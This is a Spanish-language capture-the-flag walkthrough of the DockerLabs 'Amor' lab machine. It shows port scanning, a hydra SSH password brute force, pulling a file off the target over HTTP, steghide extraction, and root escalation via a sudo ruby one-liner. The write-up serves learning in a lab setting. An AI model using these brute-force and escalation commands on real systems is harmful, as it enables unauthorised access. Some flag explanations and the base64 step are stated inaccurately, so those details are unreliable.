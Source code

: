# [Amor](https://dockerlabs.es/)

## Despliegue

Primero desplegamos la máquina con ```bash auto_deploy.sh amor.tar``` (si no sabes en la página de DockerLabs ahí un pdf que lo explica).


## Reconocimiento

Una vez desplegada comprobamos que tenemos conectividad con ```ping -c 1 172.17.0.2``` 
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/af4d0189-b640-4576-aca6-3c02c75c9434)
<br>
`-c 1` ⮞ solo lo repite una vez<br>
<br>

Ahora vamos con el reconocimiento de nmap ```nmap -p- --open --min-rate 5000 -sS -vvv -n -Pn 172.17.0.2 -oG allPorts``` <br>
`-p-` ⮞ aplicar reconocimiento a todos los puertos <br>
`--open` ⮞ solo a los que estén abiertos <br>
`--min-rate 5000` ⮞ para enviar paquetes más rápido <br> 
`-sS` ⮞ para descubrir puertos de manera silenciosa y rápida <br> 
`-vvv` ⮞ conforme descubre un puerto nos lo muestra por pantalla <br> 
`-n` ⮞ no aplica la resolución DNS (tarda mucho en el caso de que no pongamos dicho parámetro)<br> 
`-Pn` ⮞ ignora si esta activa o no la IP<br> 
`-oG` ⮞ exportamos el resultado en formato grepeable (para extraer mejor los datos con herramientas como grep, awk)
<br>

Podemos ver los resultados en el archivo grepeable haciendo ```cat allPorts```, observamos que está abierto el puerto **22** y **80**.
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/8563720d-b839-447e-988d-bb80300a4b67)

<br>
<br>

## Página Web (Puerto 80)

Al ver que aloja un servidor web, nos dirigimos a él poniendo en el buscador la ip que en este caso sería `172.17.0.2`. Vemos que nos da varias vistas:
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/ce9ba3fe-f606-47cc-8e14-9323006440a0)

Como por ejemplo, que un usuario tiene una contraseña débil y que existen dos posible usuarios `Juan` y `Carlota`.

<br>
<br>

## Hydra / Medusa

Una vez conocemos los posibles usuarios haremos un ataque de fuerza bruta al servicio ssh usando hydra en primer lugar, usaremos el usuario bob `hydra -l juan -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2`. <br> 
`-h` ⮞ dirección IP de la máquina victima <br>
`-u` ⮞ nombre del posible usuario <br> 
`-P` ⮞ ruta del rockyou. Para descargar el diccionario [rockyou](https://github.com/brannondorsey/naive-hashcat/releases/download/data/rockyou.txt).

<br>

No encontraríamos nada, por lo que haremos fuerza bruta al otro usuro (Carlota) de la siguiente forma `hydra -l carlota -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2`, en esta caso si que nos encontraría la contraseña:
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/dd0fa07f-95cd-4dfd-8661-ab1c4dcecc44)

 > Podríamos usar un archivo el cual contenga los nombre de usuarios, pero en esta caso tardaría más en encontrarnos la contraseña siempre y cuando pongamos primero al usuario juan.

<br>
<br>

## SSH (Puerto 22)
Una vez conocemos el usuario y su contraseña probamos a entrar a la máquina Amor con `ssh carlota@172.17.0.2`, y a continuación nos pedirá la contraseña. <br>

> Si te aparece un error como este [aquí](https://desarrolloweb.com/faq/solucionar-remote-host-identification-has-changed-al-hacer-ssh) puedes encontrar la solución. <br>![image](https://github.com/TerrorAterrador/WriteUps/assets/128630899/2128bd5f-33a2-4bb0-ac54-6555c7aa5817)

<br>
<br>

## Escalada de Privilegios

En este caso no será necesario el Tratamiento de la TTY con tan solo escribiendo bash ya tendremos una terminal cómoda. En todo caso el tratamiento sería así: <br>
1-.`script /dev/null -c bash` <br>
2-.`Pulsamos CTRL+Z` <br>
3-.`stty raw -echo; fg` <br>
4-.`reset xterm` <br>
5-.`export SHELL=bash && export TERM=xterm` <br>

<br>

Ejecutamos el comando `sudo -l` para ver que podemos ejecutar como sudo, pero no encontramos nada: <br>
![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/59e0946c-7f69-430c-b586-a0ef4e31b6f0)

<br>

Al igual que si ejecutamos `find / -perm -4000 2>/dev/null` en búsqueda de permisos SUID no encontramos nada potencial para escalar privilegios. 
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/e2862f75-c832-4f97-be42-175ef81ccdf6)

`/` ⮞ buscamos desde la raíz <br>
`-perm -4000` ⮞ mostrar los permisos SUID <br>
`2>/dev/null` ⮞ para que no nos muestre los errores 

<br>

Si nos vamos a la siguiente ruta `/home/carlota/Desktop/fotos/vacaciones/imagen.jpg` dentro del directorio personal de **carlota** nos encontramos con una imagen, nos la llevamos a nuestra máquina de atacante montando un servidor http con python de la siguiente manera: `python3 -m http.server 555`.
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/c8c89ec2-e7a4-4532-a7f1-ff9757a29241)

<br>

Obtenemos dicha imagen, con el siguiente comando desde nuestra máquina de atacante `wget 172.17.0.2:555/imagen.jpg`
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/8f146058-f302-4061-9149-8d875a340341)

<br>
<br>

### Estenografía

Pasamos a analizar los metadatos de la imagen, para ver si tiene algo oculto, usaremos el siguiente comando: `steghide extract -sf imagen.jpg`, nos pedirá una passphrase pero le damos al enter, y obtendremos un archivo `secret.txt` el cual contendrá el siguiente contenido:
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/bc96bdef-8057-447b-9f64-59837d284d5b)

<br>

Parece que tiene una cadena de texto en base64 por lo que pasaremos a decodificarla con el siguiente comando `cat secret.txt`, y obtendremos lo que parece una contraseña:
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/f8ae1f7a-bed5-4212-81fa-812845870ba8)

<br>

Probamos a autenticarnos como oscar con el siguiente comando `su oscar` -> introducimos la contraseña y ya seremos oscar y escribimos `bash` para ejecutar una terminal de bash en ves de una sh:
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/56d202b6-f64c-43cf-b580-ce4585832cbc)

<br>

Seguimos el mismo procedimiento de antes, ejecutando el comando `sudo -l` y los reporta lo siguiente:
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/d70b5646-7f76-4925-9d37-fad3361ff03e)

<br>

Por lo que deberíamos hacer ahora es dirigirnos a la página [GTFOBins](https://gtfobins.github.io/) (está página nos indica como elevar privilegios dependiendo del binario que podamos ejecutar), después nos vamos a la parte de sudo en ruby, y nos encontramos con lo siguiente:
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/804e3fcd-5f15-44fa-8c3c-ed073e80517d)

<br>

Por lo cual ejecutaremos lo siguiente `sudo -u root ruby -e 'exec "/bin/bash"'`, y listo ya seremos root:
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/1716e422-11bc-4ec8-a191-49db425e1f1b)

